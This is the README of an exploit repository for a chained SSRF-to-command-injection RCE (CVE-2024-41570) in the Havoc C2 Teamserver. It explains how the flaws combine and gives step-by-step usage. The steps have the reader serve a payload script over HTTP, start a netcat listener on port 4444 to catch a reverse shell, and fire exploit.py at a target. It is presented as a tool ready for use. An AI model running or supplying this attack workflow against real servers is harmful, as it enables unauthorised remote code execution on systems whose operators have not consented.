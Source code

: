 # Havoc-C2-RCE
This is a Chained RCE (CVE-2024-41570) in the Havoc C2 framework.

Command injection: Havoc is vulnerable to command injection enabling an authenticated user to execute commands on the Teamserver. Affects versions 0.3 up to the latest release 0.6. Havoc's default profile contains hardcoded passwords, so a C2 operator careless enough to use the default profile on a public network can immediately be exploited.

SSRF: This vulnerability is exploited by spoofing a demon agent registration and checkins to open a TCP socket on the teamserver and read/write data from it. This allows attackers to leak origin IPs of teamservers and much more.

Chain: Abusing SSRF to deliver an authenticated command injection payload.

# How to use
```
1. Modify the IP, USER and PASSWORD in the exploit.py file.
2. Modify IP in payload.sh
3. 

-> python3 -m venv myenv && source myenv/bin/activate
-> pip3 install -r requirements.txt
-> chmox +x payload.sh
-> python3 -m http.server (On another terminal)
-> nc -lvnp 4444 (On another terminal)

# Run the exploit
(myenv) -> python3 exploit.py -t https://site.com -i 0.0.0.0 -p 12345
```

Credits to [@chebuya](https://github.com/chebuya/Havoc-C2-SSRF-poc) and [@Hyperreality](https://github.com/IncludeSecurity/c2-vulnerabilities/blob/main/havoc_auth_rce/havoc_rce.py)
